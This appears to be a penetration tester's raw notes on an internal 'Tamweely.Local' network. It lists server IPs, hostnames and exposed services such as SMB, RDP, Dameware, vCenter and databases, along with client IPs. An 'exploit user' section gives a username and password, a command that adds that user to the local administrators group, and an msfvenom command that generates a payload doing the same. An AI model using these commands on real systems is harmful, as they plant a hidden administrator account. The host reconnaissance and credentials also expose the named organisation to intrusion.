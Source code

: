 [X] 10.10.80.25 | HP-SRV.Tamweely.Local | IIS + SMB + Print + RDP + VNC + Dameware Mini Remote Control
[X] 10.10.80.50 | File-Server.Tamweely.Local | SMB + RDP + VNC + dameware
[X] 10.10.80.51 | DFS-SRV.Tamweely.Local | SMB + RDP + VNC + Dameware
[X] 10.10.80.62 | helpdesk-srv.tamweely.local | DNS + IIS + Oracel TNS + RDP + Dameware + Oracle XML DB Ent. Edition + MSSQL
[X] 10.10.80.80 | WSUS-SRV | IIS + SMB + RDP + Dameware
[X ] 10.10.80.151 | Commsrv.Tamweely.Local | Commvault + IIS + SMB + RDP + VNC + Dameware + Active MQ Openwire transport + Jetty + Galaxy Client Event manager + MongoDB + MSSQL
[X] 10.10.80.160 | VCSA-SRV.Tamweely.Local | VMware vCenter Server + Kerberos + LDAP + SMB + 514 + RDP + Dameware + Tomcat + TwistedWeb httpd + Apache
[X] 10.10.80.252 | DMD-Srv.Tamweely.Local | SMB + RDP + Dameware + Apache + Nginx + PostgreSQL

# exploit user:
User: pentest
PasS: P3nt3st17935

net user pentest P3nt3st17935 /add && net localgroup administrators pentest /add

msfvenom -p windows/adduser USER=pentest PASS=P3nt3st17935 -f psh-cmd > exploit.ps1


# Clients
1. 10.10.39.25
2. 10.10.38.30
3. 10.10.36.23